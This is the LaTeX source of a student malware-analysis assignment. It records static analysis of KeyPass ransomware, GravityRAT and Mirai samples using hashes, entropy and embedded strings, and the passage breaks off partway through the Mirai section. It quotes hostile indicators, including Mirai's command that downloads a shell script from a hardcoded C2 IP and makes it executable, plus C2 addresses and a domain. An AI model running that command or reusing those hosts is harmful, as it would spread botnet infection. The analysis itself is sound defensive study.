\documentclass{article}
\usepackage{graphicx} 
\usepackage{blindtext}
\usepackage{titlesec}
\usepackage{float}
\usepackage{listings}
\usepackage{parskip}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}

\lstset{
  basicstyle=\ttfamily\small,
  numbers=left,
  numberstyle=\tiny,
  stepnumber=1,
  numbersep=5pt,
  tabsize=2,
  breaklines=true,
  showstringspaces=false,
  keywordstyle=\color{pink},
  commentstyle=\color{gray},
  stringstyle=\color{yellow!50!black}
}

\title{Practical Assignment 3 COS 330}
\author{By Hayley Dodkins u21528790}
\date{September 2025}

\begin{document}

\maketitle
\tableofcontents

\section{Task 1}
\subsection{KeyPass}
\subsubsection{Overview}
KeyPass is a ransomware that targets Windows systems. It encrypts user files with AES and RSA keys and then demands payment in exchange for the decryption key. The malware spreads through malicious downloads or bundled installers and is known for leaving ransom notes named \texttt{!!!DECRYPTION\_KEYPASS\_INFO!!!.txt}. \cite{keypass-kaspersky}.

\subsubsection{Process}
This sample was obtained from theZoo repository \cite{the-zoo} \cite{the-zoo-keypass}. To ensure its integrity, the downloaded file’s MD5 hash was compared against the value provided in the repository, as shown in figure~\ref{fig:keypass-md5-conf}. Once verified, the sample was analyzed using Detect It Easy (DIE) \cite{detect-it-easy} to extract static features such as embedded strings, entropy, compiler information, and other metadata. The discussion below outlines the findings from this analysis.

\subsubsection{MD5 Hash Confirmation}
\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{keypass/md5-conf.png}
  \caption{Confirmation that the MD5 hash of the download is the same as what was expected.}
  \label{fig:keypass-md5-conf}
\end{figure}

\subsubsection{Compiler Information}
The binary was compiled for Windows XP using Microsoft Visual Studio 2013 in C/C++.  The use of C++ provides low level system control, needed for encryption and registry manipulation.

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{keypass/os-information}
  \caption{Compiler information for KeyPass ransomware.}
  \label{fig:keypass-compiler-info}
\end{figure}

\subsubsection{Embedded Strings}
One of the most surprising findings was the presence of the ransom note. Strings such as \texttt{"All your files, documents, photos, databases and other important files are encrypted..."}, \texttt{"Price for decryption \$300"}, and \texttt{"Very big trouble!!!!!!!"} confirm that the malware’s intent is to extort victims after encrypting their data. The reference to the file \texttt{!!!DECRYPTION\_KEYPASS\_INFO!!!.txt} shows that the ransomware creates a persistent ransom note on infected machines. This approach is typical of ransomware, embedding the extortion message directly into the executable to ensure it is always delivered to the victim.

Alongside the ransom text, there are multiple references to cryptographic algorithms such as \texttt{RijndaelManaged}, \texttt{Aes192}, \texttt{Aes256}, \texttt{TripleDes168}, and \texttt{AddExtraDataAES}. These indicate that the ransomware uses strong encryption algorithms, from the .NET cryptography library. The presence of different algorithms suggests that the developers supported multiple modes of encryption, to possibly evade detection or strengthen the file locking process.

The binary also contains strings tied to Windows Activation Context APIs, including \texttt{ActivateActCtx}, \texttt{DeactivateActCtx}, and \texttt{QueryActCtxW}. In malware they can be abused for DLL redirection and to ensure compatibility across different system configurations. Similarly, registry and persistence APIs such as \texttt{RegOpenKeyTransactedW} and \texttt{RegisterApplicationRestart} show that KeyPass interacts directly with the registry and attempts to survive reboots or crashes by registering itself as a restartable application.

\texttt{GetModuleHandleExW} and the format string \texttt{\%s\%s.dll} suggest that the malware dynamically constructs DLL names at runtime, which can be used to confuse static analysis or to load libraries conditionally. The presence of a compilation artifact, \texttt{@f:\dd\vctools\vc7libs\ship\atlmfc\include\afxwin2.inl}, shows that debugging information from Microsoft’s Visual Studio was left inside the binary, which provides clues about how the malware was built.

The string \texttt{MFCShellList} suggests use of MFC (Microsoft Foundation Classes) for shell interaction. The presence of \texttt{Execute} suggests a generic routine for launching commands or processes, which could be used during file encryption. The path-like value \texttt{\%2\textbackslash protocol\textbackslash StdFileEditing\textbackslash server} appears to be a reference to a file editing or protocol handling algorithm. Together these strings show that KeyPass interacts with the Windows shell and process execution environment.

In summary, the embedded strings reveal every stage of KeyPass’s behavior. Encryption through strong cryptographic algorithms, persistence through registry and restart APIs, dynamic library loading, and direct delivery of ransom instructions through embedded text. This combination reveals the binary’s purpose.

\subsection{GravityRAT}
\subsubsection{Overview}
GravityRAT is a Remote Access Trojan (RAT) that has been used in attacks against government and military organizations. It is capable of data theft, surveillance, and system manipulation. GravityRAT is notable for its use of encryption, persistence, and ability to evade detection \cite{trendmicro-gravityrat}.

\subsubsection{Porcess}
This sample was obtained from theZoo repository \cite{the-zoo} \cite{the-zoo-rat}. To ensure its integrity, the downloaded file’s MD5 hash was compared against the value provided in the repository, as shown in figure~\ref{fig:rat-md5-conf}. Once verified, the sample was analyzed using Detect It Easy (DIE) \cite{detect-it-easy} to extract static features such as embedded strings, entropy, compiler information, and other metadata. The discussion below outlines the findings from this analysis.

\subsubsection{MD5 Hash Confirmation}
\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/md5-conf.png}
  \caption{Confirmation that the MD5 hash of the download is the same as what was expected.}
  \label{fig:rat-md5-conf}
\end{figure}

\subsubsection{Compiler Information}
The binary was compiled as a Windows 95 executable using the Microsoft Linker and Visual C\#.

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/compiler-info.png}
  \caption{Compiler information for GravityRAT.}
  \label{fig:rat-compiler-info}
\end{figure}

\subsubsection{Entropy}
The average entropy was measured at 6.8, with 85\% of the file packed. One section reached an entropy of 8.0, which indicates strong packing or encryption. This level of entropy is consistent with malware that attempts to hide its internal functionality and evade static analysis.  

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/entropy.png}
  \caption{Entropy graph for GravityRAT.}
  \label{fig:rat-entrop}
\end{figure}

\subsubsection{Embedded Strings}
Strings such as \texttt{<EthernetId>}, \texttt{<MatchMacAdd>}, and \texttt{TargetInstance ISA 'Win32\_LogicalDisk'} indicate that the malware collects hardware identifiers such as MAC addresses and logical disk information. These values can be used for victim profiling, virtual machine detection, or ensuring persistence only on specific targets.

The string \texttt{IsZip64Forced} points to handling large ZIP archives, suggesting that GravityRAT may compress stolen files before exfiltration. The presence of \texttt{WindowFilled} and \texttt{get\_IsScanned} further shows that the malware performs some type of scanning or monitoring. 

GravityRAT makes extensive use of cryptographic libraries, including \texttt{RijndaelManaged}, \texttt{Aes192}, \texttt{Aes256}, \texttt{TripleDes168}, \texttt{Adler32}, and \texttt{AddExtraDataAES}. These indicate multiple layers of encryption and hashing, which are likely applied to both command traffic and stolen data.

Strings such as \texttt{<UploadServer>}, \texttt{DriveUpload}, \texttt{DRIVEUPLOADCOMPLETED => TOTALFILES=\{0\}, FILESUPLOADED=\{1\}}, and \texttt{DRIVE-SCAN-NOT-COMPLETED-ADD-TASK AGAIN-WHEN-COMPLETED} reveal that GravityRAT is designed to upload files in bulk, track task completion, and retry unfinished operations.

Strings like \texttt{netstat -a}, \texttt{command}, and \texttt{RawPassword} suggest that the malware can run system commands, capture credentials, and monitor network connections. The reference to \texttt{DONT-RESOLVE\_DLL\_REFERENCE} shows that the malware may deliberately load DLLs without resolving imports, which often used to evade analysis or bypass dependency checks.  

Taken together, these strings show that GravityRAT makes use of cryptography with persistent file exfiltration, system fingerprinting, and command execution. 

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-1.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-1}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-2.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-2}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-3.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-3}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-4.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-4}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-5.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-5}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-6.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-6}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-7.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-7}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-8.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-8}
\end{figure}

\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{gravityrat/strings-9.png}
  \caption{Embedded strings found in GravityRAT binary.}
  \label{fig:rat-strings-9}
\end{figure}

\subsection{Mirai}
\subsubsection{Overview}
Mirai is a botnet designed to take control of IoT devices and turn them into bots which are capable of launching a large Dential of Service (DDoS) Attack. Mirai can infect all devices connected to the same network making it spread fast \cite{radware}

\subsubsection{Process}
This sample was obtained from theZoo repository \cite{the-zoo} \cite{the-zoo-mirai}. To ensure its integrity, the downloaded file’s SHA256 hash was compared against the value provided in the repository, as shown in figure~\ref{fig:mirai-sha-conf}. Once verified, the sample was analyzed using Detect It Easy (DIE) \cite{detect-it-easy} to extract static features such as embedded strings, entropy, compiler information, and other metadata. The discussion below outlines the findings from this analysis.

\subsubsection{SHA Hash Confirmation}
\begin{figure}[H] 
  \centering
  
\includegraphics[width=0.9\textwidth]{mirai/sha-confirm.png}
  \caption{Confirmation that the SHA 256 hash of the download is the same as what was expected.}
  \label{fig:mirai-sha-conf}
\end{figure}

\subsubsection{Embedded Strings}
When looking at the binary, a number of suspicious strings stood out. These include HTTP request methods like \texttt{POST} and \texttt{GET}, cookies with session IDs, and hardcoded IP addresses (\texttt{79.124.8.24} and \texttt{79.124.18.20}). These strings show how Mirai talks to its C2 server to get instructions and send data back. The use of hardcoded IPs means it doesn’t have to rely on DNS, which makes connections faster. Seeing common 
web elements (\texttt{GET}, \texttt{POST}, \texttt{Cookie}) also makes it clear that 
Mirai uses HTTP for communication. \cite{mirai-botnet} \cite{imperva-mirai} \cite{a10-mirai}.

The command \texttt{wget http://79.124.8.24/fetch.sh;chmod777} (in figure~\ref{fig:mirai-ip-add-1}) shows that the malware attempts to download a shell script from a remote server and modify its permissions to make it executable.

Another string \texttt{GET /linuxki443/experimental/vis/ki443vis.php} (in figure~\ref{fig:mirai-ip-add-1}) appears to reference a PHP script hosted on a remote server. This may represent a staging script used to host secondary payloads or as part of the botnet’s command service.

The reference to \texttt{/proc/net/tcp} (in figure~\ref{fig:mirai-ip-add-2}) shows that the malware reads the Linux system file listing active TCP sockets. This allows it to check for open connections or ports, which can be useful for spreading or monitoring activity on the device.

Finally, the hardcoded domain \texttt{iotsecurity.xyz} (in figure~\ref{fig:mirai-ip-add-2}) is a possible command-and-control (C2) endpoint. Malware authors often embed domains directly into binaries to ensure their samples can connect to infrastructure without relying on DNS lookups or configuration files, making this a strong indicator of compromise.

\begin{figure}[H] 
  \centering
